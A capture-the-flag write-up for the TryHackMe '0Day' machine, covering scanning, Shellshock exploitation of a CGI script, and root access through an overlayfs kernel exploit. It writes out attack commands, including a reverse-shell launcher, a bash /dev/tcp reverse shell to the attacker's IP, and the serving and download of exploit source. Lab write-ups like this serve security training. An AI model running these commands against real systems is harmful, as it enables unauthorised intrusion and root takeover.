# TryHackMe Writeup: 0Day

## Reconnaissance and Enumeration

### Nmap Scan

We begin with a comprehensive TCP port scan to identify all open ports on the target machine.

`nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv <IP>`



With the open ports identified (22 and 80), we proceed with a detailed service and version enumeration scan on those specific ports.

`nmap -p22,80 -sCV <IP> -oN targeted`



### Directory Brute-Forcing (FFUF)

Next, we run a directory brute-force scan using **ffuf** to discover hidden web directories and files.

`ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<IP>/FUZZ`



### interesing founded endpoints
- /admin
- /uploads
- backup
- secret
- /cgi-bin



The scan reveals a `/cgi-bin/` directory. However, direct access to the directory is forbidden (HTTP 403), indicating the presence of executable CGI scripts.

### Vulnerability Scanning (Nikto)

To further investigate the web server, we run a **Nikto** scan to identify known misconfigurations and vulnerabilities.

`nikto -h <IP>`

Nikto identifies a critical finding: the script located at `/cgi-bin/test.cgi` is potentially vulnerable to the **Shellshock** vulnerability (CVE-2014-6271).



## Gaining Access

### Exploit Selection

We use `searchsploit` to look for publicly available Shellshock exploits.

`searchsploit shellshock`

![[maquinas/CTF/linux/0day-TryHackMe/assets/Captura_de_pantalla_de_2025-10-01_18-05-29.png]]

Since Nikto confirmed the vulnerability is triggered via the Apache web server, we will utilize the **Apache mod_cgi Remote Code Execution** exploit.



Let's use this exploit:



We copy the exploit script to our current working directory for modification and execution:

`searchsploit -m linux/remote/34900.py`



### Executing the Exploit

After reviewing the script's usage instructions, we execute it with the appropriate parameters to trigger a reverse shell.

`python2.7 34900.py payload=reverse rhost=<victim IP> lhost=<your IP> lport=443`



### Shell Stabilization

The initial reverse shell obtained via the exploit is often unstable or lacks full TTY capabilities. To establish a more reliable connection, we set up a secondary Netcat listener and spawn a new bash shell from within the initial session.

**1. Start a Netcat listener on the attack machine:**

`nc -nvlp 4444`

**2. From the initial shell, execute a bash reverse shell:**

`bash -i &> /dev/tcp/<IP>/4444 0>&1`



The Netcat listener successfully catches the upgraded, more stable shell:



### User Flag

Navigating to the user's home directory, we successfully retrieve the user flag.

`cat /home/ryan/user.txt`

## Privilege Escalation

### Environment Reconnaissance

The `/tmp` directory has world-writable permissions, which allows us to freely download and execute custom binaries. We check the system's kernel version to search for local privilege escalation vulnerabilities.



Run `uname -a` to check the kernel version.



### Kernel Exploitation

Searching Exploit-DB for the identified kernel version yields a matching local privilege escalation exploit (specifically, the `overlayfs` local root exploit, CVE-2015-1318 / 37292.c).



We host the C source code on our attack machine using Python's built-in HTTP server:

`python3 -m http.server 80`



On the target machine, we download the exploit source code using `wget`:



### Compilation and PATH Fix

We attempt to compile the C source code into an executable binary:

`gcc 37292.c -o exploit`

![[maquinas/CTF/linux/0day-TryHackMe/assets/Captura_de_pantalla_de_2025-10-01_18-30-38.png]]

The compilation fails. Checking the environment reveals that the `$PATH` variable is restricted or misconfigured. We verify that `gcc` is indeed installed on the system:

`which gcc`



Since `gcc` is present, we fix the issue by exporting the standard system directories to the `$PATH` variable:

`export PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/sbin:/usr/sbin:/sbin:$PATH`



With the correct `$PATH` configured, we retry the compilation, which now succeeds:



### Root Access

We execute the compiled exploit:

`./exploit`



The exploit executes successfully, escalating our privileges to `root`.

### Root Flag

Finally, we navigate to the root directory and read the root flag.

`cat /root/root.txt`

_Thank you for reading! If you found this writeup informative, please consider sharing it or leaving a reaction._
